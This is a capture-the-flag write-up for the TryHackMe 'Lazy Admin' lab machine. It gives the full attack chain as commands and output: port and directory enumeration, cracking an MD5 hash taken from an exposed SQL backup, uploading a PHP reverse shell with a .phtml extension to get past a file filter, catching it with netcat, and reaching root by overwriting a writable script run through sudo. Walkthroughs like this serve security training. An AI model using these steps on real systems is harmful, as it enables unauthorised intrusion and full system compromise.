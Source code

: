 ```yaml
---
layout: post
title: Lazy Admin
subtitle: TryHackME - Lazy Admin
description: Enumerate services, scan ports, exploit vulnerabilities, and escalate privileges to capture flags.
image: https://tryhackme-images.s3.amazonaws.com/room-icons/efbb70493ba66dfbac4302c02ad8facf.jpeg 
optimized_image: https://tryhackme-images.s3.amazonaws.com/room-icons/efbb70493ba66dfbac4302c02ad8facf.jpeg
tags:
  - TryHackME
  - enum web 
  - brute force
  - Privilege Escalation
  - Find Flags
author: Mustafa Altayeb
date: 2025-10-16 00:00
paginate: true
---
```


# Lazy Admin

[Lazy Admin](https://tryhackme-images.s3.amazonaws.com/room-icons/efbb70493ba66dfbac4302c02ad8facf.jpeg)

![](https://tryhackme-images.s3.amazonaws.com/room-icons/efbb70493ba66dfbac4302c02ad8facf.jpeg)

## Objectives

1. Enumerate ports
2. Enumerate HTTP
3. Brute force with gobuster
4. Gain access with an upload shell
5. Privilege escalation
6. Capture 2 flags

## Reconnaissance

### Nmap Scan

Port scan:

```bash
nmap -p- -sCV -T4 10.10.112.250
```

```js
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protoc
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Key Findings**:

* **Port 22**: SSH service, version 7.2p2
* **Port 80**: Apache httpd

## Web Enumeration

![](/assets/TryHackMeRoomsImage/LazyAdmin/image.png)

## Gobuster

Gobuster may find special directories.

> **gobuster dir --url [http://10.10.112.250](http://10.10.112.250) -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt**

**Result**

```js
/content              (Status: 301) [Size: 316] [--> http://10.10.112.250/content/]  
```

![](/assets/TryHackMeRoomsImage/LazyAdmin/image2.png)

**Findings**:

* it uses SweetRice as a management system

let's enum this directory:

> **gobuster dir --url [http://10.10.112.250/content](http://10.10.112.250/content) -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt**

**findings**:

```js
/images               (Status: 301) [Size: 323] [--> http://10.10.112.250/content/images/]                                                          
/js                   (Status: 301) [Size: 319] [--> http://10.10.112.250/content/js/]                                                              
/inc                  (Status: 301) [Size: 320] [--> http://10.10.112.250/content/inc/]                                                             
/as                   (Status: 301) [Size: 319] [--> http://10.10.112.250/content/as/]                                                              
/_themes              (Status: 301) [Size: 324] [--> http://10.10.112.250/content/_themes/]                                                         
/attachment           (Status: 301) [Size: 327] [--> http://10.10.112.250/content/attachment/]   
```

in `/inc` : found MySQL backup:

![](/assets/TryHackMeRoomsImage/LazyAdmin/image3.png)

in `/as` : found login page:

![](/assets/TryHackMeRoomsImage/LazyAdmin/image4.png)

after downloading the SQL backup i found login credentials:

```
username : manager
hash (MD5) : 42f749ade7f9e195bf475f37a44cafcb
```

### crack hash with john

```bash
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash
```

password: `Password123`

login with these credentials `username: manager` && `Password: Password123`

after login i find a tab called **Media Access**:

![](/assets/TryHackMeRoomsImage/LazyAdmin/image5.png)

## Gain Access

using [pentestmonkey php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and updating the IP and port, then start listener with netcat:

```bash
nc -nlvp 9090
```

i tried to upload `.php` but extension not approved; uploading `.phtml` succeeded:

![](/assets/TryHackMeRoomsImage/LazyAdmin/image6.png)

after clicking the uploaded file i gained a shell:

```text
💻  T4T4R1S  🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.14.109.66
👀  ➜ ~/thm_machines/LazyAdmin  nc -nlvp 9090                  
listening on [any] 9090 ...
connect to [10.14.109.66] from (UNKNOWN) [10.10.112.250] 49668
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 15:47:29 up  1:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

## Upgrade shell using python

> **$ python -c 'import pty; pty.spawn("/bin/bash")'**

```js
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@THM-Chal:/$ 
```

## user flag

```bash
www-data@THM-Chal:/home/itguy$ cat user.txt
THM{63e5bce927..............}
```

# Privilege escalation

when i enumerated the system i used `sudo -l` to know what can i run:

```js
www-data@THM-Chal:/home/itguy$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/home/itguy$
```

* i can run `/usr/bin/perl /home/itguy/backup.pl` as root without password.

after checking, `backup.pl` runs `/etc/copy.sh` and `/etc/copy.sh` is writable:

```text
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

i replaced `/etc/copy.sh` with a command to spawn bash as root:

```bash
www-data@THM-Chal:/home/itguy$ echo "/bin/bash" > /etc/copy.sh
```

then i executed the backup script via sudo to get root:

```bash
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
root@THM-Chal:/home/itguy# whoami
root
```

## Root flag

```bash
root@THM-Chal:/home/itguy# cd ~
root@THM-Chal:~# cat root.txt
THM{6637f41d0177b6f37cb2........f}
```

Finished. Happy hacking!

<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>

Follow me:

* [LinkedIn](https://www.linkedin.com/in/t4t4r1s/)
* [X](https://x.com/T4T4R1S)

---
